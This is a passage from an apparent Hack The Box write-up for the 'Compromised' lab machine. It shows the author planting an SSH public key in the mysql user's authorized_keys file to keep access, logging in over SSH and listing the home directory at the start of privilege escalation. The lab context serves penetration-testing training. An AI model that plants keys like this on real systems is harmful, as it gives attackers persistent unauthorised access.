 ### Getting shell using SSH

Let us write our ssh-key to .ssh/authorized_keys.

```bash
mysql:~$ cat /etc/passwd | grep mysql
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
mysql:~$ pwd
/var/lib/mysql
mysql:~$ echo 'ssh-rsa AAAA[...]RKYs=' > .ssh/authorized_keys
mysql:~$ cat .ssh/authorized_keys
ssh-rsa AAAA[...]RKYs=
```

We successfully added our ssh public-key and should now be able to login via ssh.

```bash
root@darkness:~# ssh -i id_rsa mysql@compromised.htb 
Last login: Thu Sep  3 11:52:44 2020 from 10.10.14.2
mysql@compromised:~$
```

We successfully login as mysql and can now start our enumeration of the system.

## Privesc - User

Now that we have our initial shell, let us enumerate the system to get access to a more privileged user.

### Enumeration as mysql

Let us start by looking at our home-directory.

```bash
mysql@compromised:~$ ls -alh
total 185M
drwx------  9 mysql mysql 4.0K Jan 23 16:44 .
drwxr-xr-x 43 root  root  4.0K May 24  2020 ..
-rw-r-----  1 mysql mysql   56 May  8  2020 auto.cnf
lrwxrwxrwx  1 root  root     9 May  9  2020 .bash_history -> /dev/null
-rw-------  1 mysql mysql 1.7K May  8  2020 ca-key.pem
-rw-r--r--  1 mysql mysql 1.1K May  8  2020 ca.pem
-rw-r--r--  1 mysql mysql 1.1K May  8  2020 client-cert.pem
-rw-------  1 mysql mysql 1.7K May  8  2020 client-key.pem
-rw-r--r--  1 root  root     0 May  8  2020 debian-5.7.flag
drwxr-x---  2 mysql mysql  12K May 28  2020 ecom
drwx------  3 mysql mysql 4.0K May  9  2020 .gnupg
-rw-r-----  1 mysql mysql  527 Sep 12 19:56 ib_buffer_pool
-rw-r-----  1 mysql mysql  76M Jan 23 16:44 ibdata1
-rw-r-----  1 mysql mysql  48M Jan 23 16:44 ib_logfile0
-rw-r-----  1 mysql mysql  48M May 27  2020 ib_logfile1
-rw-r-----  1 mysql mysql  12M Jan 23 16:51 ibtmp1
drwxrwxr-x  3 mysql mysql 4.0K May  9  2020 .local
drwxr-x---  2 mysql mysql 4.0K May  8  2020 mysql
lrwxrwxrwx  1 root  root     9 May 13  2020 .mysql_history -> /dev/null
drwxr-x---  2 mysql mysql 4.0K May  8  2020 performance_schema
-rw-------  1 mysql mysql 1.7K May  8  2020 private_key.pem
-rw-r--r--  1 mysql mysql  452 May  8  2020 public_key.pem
-rw-r--r--  1 mysql mysql 1.1K May  8  2020 server-cert.pem
-rw-------  1 mysql mysql 1.7K May  8  2020 server-key.pem
drwxrwxr-x  2 mysql mysql 4.0K Sep  3 11:52 .ssh
-r--r-----  1 root  mysql 769K May 13  2020 strace-log.dat
drwxr-x---  2 mysql mysql  12K May  8  2020 sys
```

